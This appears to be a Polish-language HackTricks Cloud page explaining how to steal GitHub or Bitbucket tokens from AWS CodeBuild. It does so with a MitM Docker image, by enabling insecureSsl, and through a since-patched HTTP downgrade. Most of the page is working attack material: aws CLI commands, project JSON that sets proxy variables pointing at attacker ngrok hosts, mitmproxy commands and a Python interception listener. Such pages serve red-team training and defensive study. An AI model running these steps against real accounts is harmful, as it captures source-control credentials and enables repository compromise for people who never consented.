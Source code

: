 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}

## Odzyskiwanie skonfigurowanych tokenów Github/Bitbucket

Najpierw sprawdź, czy są skonfigurowane jakiekolwiek poświadczenia źródłowe, które możesz wyciekować:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Jeśli odkryjesz, że uwierzytelnienie do na przykład Github jest ustawione w koncie, możesz **ekstrahować** ten **dostęp** (**GH token lub OAuth token**) poprzez sprawienie, że Codebuild **użyje konkretnego obrazu docker** do uruchomienia budowy projektu.

W tym celu możesz **utworzyć nowy projekt Codebuild** lub zmienić **środowisko** istniejącego, aby ustawić **obraz Docker**.

Obraz Docker, którego możesz użyć, to [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). To bardzo podstawowy obraz Docker, który ustawi **zmienne środowiskowe `https_proxy`**, **`http_proxy`** i **`SSL_CERT_FILE`**. To pozwoli ci przechwycić większość ruchu hosta wskazanego w **`https_proxy`** i **`http_proxy`** oraz zaufać certyfikatowi SSL wskazanemu w **`SSL_CERT_FILE`**.

1. **Utwórz i prześlij swój własny obraz Docker MitM**
* Postępuj zgodnie z instrukcjami repozytorium, aby ustawić adres IP swojego proxy i ustawić swój certyfikat SSL oraz **zbudować obraz docker**.
* **NIE USTAWIAJ `http_proxy`**, aby nie przechwytywać żądań do punktu końcowego metadanych.
* Możesz użyć **`ngrok`** jak `ngrok tcp 4444`, aby ustawić proxy do swojego hosta.
* Gdy masz zbudowany obraz Docker, **prześlij go do publicznego repozytorium** (Dockerhub, ECR...).
2. **Ustaw środowisko**
* Utwórz **nowy projekt Codebuild** lub **zmodyfikuj** środowisko istniejącego.
* Ustaw projekt, aby używał **wcześniej wygenerowanego obrazu Docker**.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Ustaw proxy MitM w swoim hoście**

* Jak wskazano w **repozytorium Github**, możesz użyć czegoś takiego:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Wersja **mitmproxy używana to 9.0.1**, zgłoszono, że w wersji 10 może to nie działać.
{% endhint %}

4. **Uruchom budowę i przechwyć dane uwierzytelniające**

*   Możesz zobaczyć token w nagłówku **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Można to również zrobić z aws cli za pomocą czegoś takiego

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Via insecureSSL

**Codebuild** projekty mają ustawienie zwane **`insecureSsl`**, które jest ukryte w sieci, można je zmienić tylko z poziomu API.\
Włączenie tego pozwala Codebuild na połączenie z repozytorium **bez sprawdzania certyfikatu** oferowanego przez platformę.

* Najpierw musisz wyenumerować bieżącą konfigurację za pomocą czegoś takiego:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* Następnie, z zebranymi informacjami możesz zaktualizować ustawienie projektu **`insecureSsl`** na **`True`**. Poniżej znajduje się przykład mojej aktualizacji projektu, zwróć uwagę na **`insecureSsl=True`** na końcu (to jest jedyna rzecz, którą musisz zmienić w zebranej konfiguracji).
* Ponadto, dodaj również zmienne środowiskowe **http\_proxy** i **https\_proxy** wskazujące na twój tcp ngrok, jak: 

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* Następnie uruchom podstawowy przykład z [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na porcie wskazanym przez zmienne proxy (http\_proxy i https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Na koniec kliknij na **Zbuduj projekt**, **poświadczenia** będą **wysyłane w czystym tekście** (base64) do portu mitm:

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### ~~Via HTTP protocol~~

{% hint style="success" %}
**Ta luka została naprawiona przez AWS w pewnym momencie w tygodniu 20 lutego 2023 roku (myślę, że w piątek). Więc atakujący nie może już tego nadużywać :)**
{% endhint %}

Atakujący z **podwyższonymi uprawnieniami w CodeBuild mógłby ujawnić token Github/Bitbucket** skonfigurowany lub jeśli uprawnienia były skonfigurowane za pomocą OAuth, **tymczasowy token OAuth używany do uzyskania dostępu do kodu**.

* Atakujący mógłby dodać zmienne środowiskowe **http\_proxy** i **https\_proxy** do projektu CodeBuild wskazujące na jego maszynę (na przykład `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Następnie zmień URL repozytorium github na używający HTTP zamiast HTTPS, na przykład: `http://github.com/carlospolop-forks/TestActions`
* Następnie uruchom podstawowy przykład z [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) na porcie wskazanym przez zmienne proxy (http\_proxy i https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Na koniec kliknij na **Zbuduj projekt**, **poświadczenia** zostaną **wysłane w czystym tekście** (base64) do portu mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Teraz atakujący będzie mógł użyć tokena ze swojej maszyny, wylistować wszystkie posiadane uprawnienia i (nadużywać) łatwiej niż korzystając bezpośrednio z usługi CodeBuild.
{% endhint %}

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
